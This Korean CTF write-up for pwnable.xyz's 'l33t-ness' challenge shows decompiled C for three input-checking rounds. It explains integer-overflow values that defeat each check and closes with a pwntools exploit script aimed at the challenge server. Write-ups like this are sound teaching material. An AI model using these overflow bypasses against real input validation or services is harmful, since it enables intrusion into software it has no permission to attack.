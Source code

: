 ```yaml
---
title: "[pwnable.xyz]l33t-ness"
date: 2020-1-25
ctf: Pwnable.xyz
layout: post
published : false
---
```


3단계로 걸쳐서 스테이지 통과하면 플래그를 내뿜는 바이너리다.

round1에서는 x,y입력받아서 atoi로 정수로 변환해주고 x,y가 각각 1336보다 작아야하는데 x-y를 1337로 만들라고한다.

그래서 v1에는 1336을 넣고 v2에는 -1을 넣어주면 되는데 strchr로 -가 포함되는지 검사하는데 마침 int형이라 -(-1) 만들어주면 된다. 아니면 v1을 다른 방법으로는 x에 0을 넣고 y에는 2^32+(2^32-1337) 이렇게 넣어주면 -1337이 되서 1337로 통과할 수 있다.

```c
_BOOL8 round_1()
{
  _BOOL8 result; // rax
  int v1; // [rsp+8h] [rbp-38h]
  int v2; // [rsp+Ch] [rbp-34h]
  char s; // [rsp+10h] [rbp-30h]
  __int64 v4; // [rsp+20h] [rbp-20h]
  unsigned __int64 v5; // [rsp+38h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  puts("=== 1eet ===");
  memset(&s, 0, 0x20uLL);
  printf("x: ", 0LL);
  read(0, &s, 16uLL);
  printf("y: ", &s);
  read(0, &v4, 16uLL);
  if ( strchr(&s, '-') || strchr(&v4, '-') )
    return 0LL;
  v1 = atoi(&s);
  v2 = atoi(&v4);
  if ( v1 <= 1336 && v2 <= 1336 )
    result = v1 - v2 == 1337;
  else
    result = 0LL;
  return result;
}
```

round2 푸는데 좀 더 오래걸려있다. v1은 1초과여야하고 v2는 1337초과여야한다. 근데 곱을 1337로 만들어야한다.

우선 v2가 1337 이상이여야한다. 그러면 2^32+1337으로 값을 맞춰주고 나누어 떨어지는 값을 곱하면 1337이 되는 원리를 사용하면 된다. 2^32+1337는 3으로 나누어떨어진다. 그러면 v1에 3을 넣고 v2에는 (2^32+1337)/3을 넣어서 곱하면 1337이 된다. 그 외에도 9로도 나누어떨어진다. 그러면 v1에는 9를 넣고 v2에는  (2^32+1337)/9를 넣어서 풀 수도 있다.

```c
_BOOL8 round_2()
{
  int v1; // [rsp+0h] [rbp-10h]
  int v2; // [rsp+4h] [rbp-Ch]
  unsigned __int64 v3; // [rsp+8h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  puts("=== t00leet ===");
  v1 = 0;
  v2 = 0;
  _isoc99_scanf("%d %d", &v1, &v2);
  return v1 > 1 && v2 > 1337 && v1 * v2 == 1337;
}
```

round3는 너무 쉬워서 딱히 할말 없다. 다 곱한값이랑 다 더한 값이랑 같으면 된다. 그냥 0으로 다 싹 밀어주면 통과할 수 있다.

```c
_BOOL8 round_3()
{
  signed int i; // [rsp+0h] [rbp-30h]
  __int64 v2; // [rsp+10h] [rbp-20h]
  __int64 v3; // [rsp+18h] [rbp-18h]
  int v4; // [rsp+20h] [rbp-10h]
  unsigned __int64 v5; // [rsp+28h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  puts("=== 3leet ===");
  v2 = 0LL;
  v3 = 0LL;
  v4 = 0;
  _isoc99_scanf("%d %d %d %d %d", &v2, &v2 + 4);
  for ( i = 1; i <= 4; ++i )
  {
    if ( *(&v2 + i) < *(&v2 + i - 1) )
      return 0LL;
  }
  return HIDWORD(v3) + v3 + HIDWORD(v2) + v2 + v4 == HIDWORD(v3) * v3 * HIDWORD(v2) * v2 * v4;
}
```

> exploit.py

```python
from pwn import *

context.log_level = 'debug'
e = ELF('./challenge')
#p = process('./challenge')
p = remote('svc.pwnable.xyz',30008)

#p.sendlineafter('x:','0') # 0
#p.sendlineafter('y:',str(0xffffffff+(0xffffffff-1335))) # 8589933255
p.sendlineafter('x:','1336') 
p.sendlineafter('y:',str(2**32-1))
p.sendlineafter('=== t00leet ===\n','3 ' + str((2**32+1337)/3))
#p.sendlineafter('=== t00leet ===\n','9 ' + str((2**32+1337)/9))
p.sendlineafter('=== 3leet ===\n','0 0 0 0 0')

# 0 8589933255
# 3 1431656211
# 0 0 0 0 0

p.interactive()
```

